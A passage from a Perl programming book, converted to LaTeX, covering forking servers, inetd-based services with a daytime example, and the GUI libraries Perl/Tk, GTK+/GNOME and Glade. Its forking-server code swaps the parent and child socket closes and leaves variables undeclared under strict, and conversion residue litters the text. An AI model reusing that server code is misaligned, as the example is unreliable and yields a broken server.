\noindent quick, since fork() must be called every time a client connects. While most UNIXes handle fork() relatively efficiently, it still takes some quite a while. Also, child server processes can't easily communicate with each other, since they're separate processes. You'd need to build some sort of infrastructure through network (or UNIX-domain sockets) if you wanted to do this.

\noindent 

\noindent \textit{Forking Servers}

\noindent A  forking server is relatively  simple  to  implement.  We simply  fork() after  getting  a  new  client  from

\noindent accept().  The only subtle  part  is  that  we have  to  install  a  signal  handler  to  deal  with  children

\noindent dying.  If the  process tries to  wait() normally,  it  will  block  --  which  is  what we  were trying  to  avoid

\noindent in the first place!

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#forkingserver.plx

\noindent use warnings;

\noindent use strict;

\noindent use IO::Socket;

\noindent 

\noindent my \$servsock = IO::Socket::INET-$>$new( Listen =$>$ 5,

\noindent LocalPort =$>$ 5000);

\noindent 

\noindent sub reap \{ wait(); \$SIG\{CHLD\} = \textbackslash \&reap;\} \# catch and handle children dying

\noindent \$SIG\{CHLD\} = \textbackslash \&reap;

\noindent 

\noindent 

\noindent while(\$client = \$servsock-$>$accept()) \{

\noindent if (\$pid = fork()) \{

\noindent close \$servsock; \#let the parent deal with the server socket

\noindent \# have a conversation with \$client here

\noindent \} else \{

\noindent close \$client; \#let the child deal with the client socket

\noindent \}

\noindent \}

\noindent 

\noindent \textit{Cheating Using inetd}

\noindent On almost all UNIX systems, a number of core network services are already provided by a program called inetd. Its role in life is to provide connectivity. It reads a configuration file

\noindent (/etc/inetd.conf) on startup, which provides a list of services and instructions on how to deal with

\noindent requests on those services.

\noindent 

\noindent The services themselves, such as "telnet" or "smtp", are specified as having certain ports within

\noindent /etc/services. After inetd reads this file in, it binds all the appropriate ports for these services, then waits for a connection to occur.

\noindent 

\noindent After a program connects to a port that's being waited on, inetd will fork and exec to run the

\noindent program specified. The important thing to note is that the socket is provided to the child as STDIN and STDOUT, so you can write very simple services without having to worry about sockets or forking at all! Also, because it's almost certainly running already, it won't use up any extra system resources until your new service is invoked.

\noindent 

\noindent A program intended to run from inetd is simple: read STDIN and write to STDOUT. For example, we can create a simple daytime server, which merely prints out the current time in the localized format. Make sure your program works properly on the command line, first!

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# daytime.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent print scalar(localtime(time())), "\textbackslash n";

\noindent 

\noindent Now we want to put it somewhere convenient, edit /etc/inetd.conf so as to tell inetd how to activate this service, and send inetd a HUP signal so as to make it reload its configuration file:

\noindent 

\noindent So first, we add a line to /etc/inetd, telling it that it's a streaming service using TCP on the port specified for daytime in /etc/services. We tell it to "nowait" (which means that it should be ready

\noindent to accept another connection on the daytime socket immediately):

\noindent 

\noindent \# Syntax for socket-based Internet services:

\noindent \# $<$service\_name$>$ $<$socket\_type$>$ $<$proto$>$ $<$flags$>$ $<$user$>$ $<$server\_pathname$>$ $<$args$>$

\noindent daytime stream tcp nowait  nobody /etc/daytime.pl

\noindent 

\noindent Finally, we restart inetd with the command "kill --HUP" command:

\noindent 

\noindent $>$ \textbf{ps auxww \textbar  grep inetd}

\noindent root 183  0.0  0.8   920  476  ??  Is   Sat06PM   0:01.08 inetd -wW

\noindent $>$ \textbf{kill --HUP 183}

\noindent $>$

\noindent 

\noindent 

\noindent Now our newly created process is ready to run!

\noindent 

\noindent $>$\textbf{telnet localhost daytime }Trying 127.0.0.1... Connected to localhost. Escape character is '\^{}]'.

\noindent Fri May 19 19:21:43 2000

\noindent Connection closed by foreign host.

\noindent $>$

\noindent 

\noindent 

\noindent Graphical Interfaces

\noindent 

\noindent One of the criticisms often leveled at Perl is that it doesn't have a graphical interface. It's ideal for the system administrator writing quick fixes, behind-the-scenes work and text manipulation, but it doesn't have any way of producing windows, menus, dialogue boxes and so on -- unless, of course, you use a module. There are a number of modules that allow Perl to talk to external graphics libraries. These libraries provide Perl with the ability to create graphical applications and control their operation.

\noindent 

\noindent External libraries are a little like Perl modules, except that they're more likely to be written in C. Before you can use them, you have to obtain them, then build and install them on your system. They then

\noindent provide a bunch of ready-made C functions that a C program can call. In the case of a graphics library, there may be a function that draws a window. So long as a programmer knows the names of the

\noindent functions, and the parameters that they expect, they can happily call them from their own C programs

\noindent and let them do all the hard work. A well-defined interface to a library like this is called an Applications

\noindent Programming Interface, or \textbf{API}.

\noindent 

\noindent That's how it works in C -- but this is Perl! Thankfully, Perl version 5 introduced the ability to talk to C library APIs using a system called XS. This stands for Extension Subroutines; you may also see the abbreviation XSUB used to refer to one of these subroutines. We'll see at the end of this chapter exactly how these subroutines work. For the moment though, it's safe to know that they're Perl modules that act

\noindent as translators between C and Perl. In the world of graphical libraries, these modules are sometimes known as \textbf{bindings }because they glue languages together.

\noindent 

\noindent We're going to look at three of the more well known graphical libraries: Tk, GTK+, and Qt.

\noindent 

\noindent Widgets

\noindent 

\noindent First though, we need to look at what these libraries actually provide us with. Each one is different and

\noindent has its own way of looking at things, but they all revolve around similar objects. They allow us to create, manipulate, and destroy components of a graphical application -- things like menus, windows, icons, scrollbars, and so on. The correct technical term for one of these components is a \textbf{widget }(though you

\noindent may hear them referred to as controls), so the libraries are sometimes known as widget sets. To help us get an idea of what we'll be using, I've included a few screenshots, showing the basic widgets common

\noindent to each of the libraries below.

\noindent 

\noindent 

\noindent Perl/Tk

\noindent 

\noindent The oldest and best known graphical library to be used in Perl is called Tk, and it's the only one that's available for both UNIX and Windows, which makes it great for portable Perl applications. Tk started life glued specifically to a language called Tcl (pronounced 'tickle') and is used in its original form with Tcl to this day. The great Malcolm Beattie first produced graphical applications in Perl by getting Perl

\noindent to talk to Tcl. This worked, but it was a very awkward solution -- something programmers call a 'kludge'. Nick Ing-Simmons took a different approach. He removed all of the Tcl-specific parts of Tk, creating a variant library, which was 'language agnostic' -- not designed for any particular language. He called this library 'portable Tk', or 'pTk'. He then wrote a set of Perl bindings for pTk, naming the end result

\noindent 'Perl/Tk'. The Tk module on CPAN provides both these bindings and the pTk library itself. Originally

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=119.2mm, height=89.4mm, viewport=3mm 4mm 205mm 292mm]{image26.ps}the Tk widgets looked like the UNIX widget-set known as 'Motif', but now they can use 'native look- and-feel'. So, on Windows, your applications will look like ordinary Windows applications.

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent Perl/GTK+ and Perl/GNOME

\noindent 

\noindent My personal favorite of the graphical libraries is \textbf{GTK+ }(its home page is at http://www.gtk.org/). GTK+

\noindent is used in GNOME, the GNU Network Object Model Environment. The GNOME project (which you can find at http://www.gnome.org/) aims to produce a fully featured, easy to use, \textit{free }desktop for Linux

\noindent and has become the \textit{de facto }standard for Linux graphical applications.

\noindent 

\noindent GTK+ is the actual widget set, while the GNOME libraries provide all non-graphical features -- drag and drop, file types and associations, communication between programs, and so on. There are Perl

\noindent modules to interface with both GTK+ and GNOME, and it's quite possible to use GTK+ without using the additional features of GNOME. In fact, there are plenty of applications that do just that.

\noindent 

\noindent 

\noindent Check out the GTK+ and GNOME modules from CPAN -- they're currently not very well documented, but

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=138.2mm, height=103.6mm, viewport=3mm 4mm 205mm 292mm]{image27.ps}contain plenty of examples to get you started.

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent \textit{Glade}

\noindent If you're familiar with languages like Visual Basic, you'll know that there's a much easier way to develop graphical applications. Just draw the windows and the menus and the boxes that you want, and attach pieces of code to them. Glade (http://www.glade.org/) is a tool to help you develop GTK+ and

\noindent GNOME programs like this. Glade was initially designed for C and C++ programmers, but now bindings have been added for Perl and a host of other languages. It's a nice way to build graphical applications very quickly.

\noindent 

\noindent Here's a screenshot of Glade in operation:

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=84.0mm, height=63.0mm, viewport=3mm 4mm 205mm 292mm]{image28.ps}

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent \textit{For more information on GTK+, GNOME and Glade, see Peter Wright's 'Beginning}

\noindent \textit{GTK+/GNOME Programming' from Wrox Press (ISBN 1861003811).}

\noindent 

